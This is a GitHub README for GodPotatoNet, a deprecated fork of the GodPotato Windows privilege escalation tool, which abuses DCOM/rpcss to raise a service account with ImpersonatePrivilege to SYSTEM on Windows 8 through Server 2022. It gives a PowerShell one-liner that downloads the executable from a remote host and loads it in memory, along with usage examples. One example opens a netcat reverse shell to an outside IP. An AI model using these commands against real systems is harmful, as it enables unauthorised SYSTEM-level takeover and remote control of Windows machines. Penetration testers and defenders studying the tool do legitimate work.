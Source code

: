 # GodPotatoNet

> [!IMPORTANT]  
> This project is officially DEPRECATED, and has been succeeded by my [SigmaPotato](https://github.com/tylerdotrar/SigmaPotato) project.
> Please refer to that project for any updates and improvements.
---

This fork of [GodPotato](https://github.com/BeichenDream/GodPotato) aims to expand upon the usability of BeichenDream's hard work.

![HelpMessage](https://cdn.discordapp.com/attachments/855920119292362802/1110988288031993917/image.png)

The predominant functionality I wanted to add was support for C# reflection, while refining some general usage.

```powershell
# C# Reflection in PowerShell
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/GodPotatoNet.exe"))
[GodPotatoNet.Program]::Main(@('-cmd','<command>'))
```

**Current Status:**
- Initial support for C# reflection. (``v1.0.0``)
- Refined help message. (``v1.0.0``)
- Refine argument input so calling from memory is more intuitive. (``WIP``)
- Fix (assumptive) thread handling issue present ONLY when calling from memory. (``WIP``)

**Known Bugs:**
- When called from memory, privilege escalation is only successful on the first execution -- every following attempt fails to impersonate the security context token.  Currently the only fix is to load ``GodPotatoNet`` into a new terminal session.

**Affected Windows Versions:**
- Windows Server 2012 - Windows Server 2022
- Windows 8 - Windows 11


### Original GodPotato
---

Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.


Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato

**Examples:**

Use the program's built-in Clsid for privilege escalation and execute a simple command

```
GodPotato -cmd "cmd /c whoami"
```

![](images/1.png)

Customize Clsid and execute commands

```
GodPotato -cmd "cmd /c whoami"
```

![](images/2.png)

Execute reverse shell commands

```
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
### Thanks

- zcgonvh
- skay

### License

[Apache License 2.0](/LICENSE)
